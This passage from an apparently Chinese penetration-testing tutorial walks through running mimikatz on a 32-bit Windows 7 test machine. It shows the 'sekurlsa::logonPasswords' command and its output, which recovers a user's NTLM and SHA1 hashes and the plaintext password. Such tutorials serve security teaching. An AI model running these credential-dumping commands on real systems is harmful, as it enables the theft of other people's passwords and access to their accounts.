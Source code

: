 从输出的信息中，可以看到 mimikatz 目录中有三个文件。其中 Win32 和 x64 表示 mimikatz 的两个版本。根据自己的系统架构选择相应的版本，本例中的操作系统是 32 位，所以选择使用 Win32。

（5）查看 Win32 目录中的内容：

```
F:\>cd mimikatz
F:\Mimikatz>cd win32
F:\Mimikatz\Win32>dir
2014/06/15 04:54   29,056 mimidrv.sys
2014/06/15 04:54   189,936 mimikatz.exe
2014/06/15 04:54   27,632 mimilib.dll 
```

从输出的信息中，可以看到 Win32 目录中有三个文件。其中，mimikatz 是一个可执行文件。

（6）运行 mimikatz 程序。执行命令如下所示：

![265-01](img/00409.jpg)

输出信息显示了 mimikatz 的一些相关信息，其中 mimikatz #提示符表示成功登录到了 mimikatz 程序。

（7）恢复密码。执行命令如下所示：

```
mimikatz # sekurlsa::logonPasswords 
```

或：

```
mimikatz # sekurlsa::logonPasswords full 
```

将输出如下所示的信息：

```
Authentication Id : 0; 10201252 (00000000:009ba8a4)
Session              : Interactive from 1
User Name            : lyw
Domain               : Windows7Test
SID                  : S-1-5-21-2306344666-604645106-2825843324-1001
       msv :
  [00010000] CredentialKeys
  * NTLM    : 32ed87bdb5fdc5e9cba88547376818d4
  * SHA1    : 6ed5833cf35286ebf8662b7b5949f0d742bbec3f
  [00000003] Primary
  * Username : lyw
  * Domain   : Windows7Test
  * NTLM      : 32ed87bdb5fdc5e9cba88547376818d4
  * SHA1      : 6ed5833cf35286ebf8662b7b5949f0d742bbec3f
 tspkg :
 wdigest :
  * Username  : lyw
  * Domain    : Windows7Test
  * Password  : 123456
 kerberos :
  * Username  : lyw
  * Domain    : Windows7Test
  * Password  : (null)
 ssp :
 credman : 
```
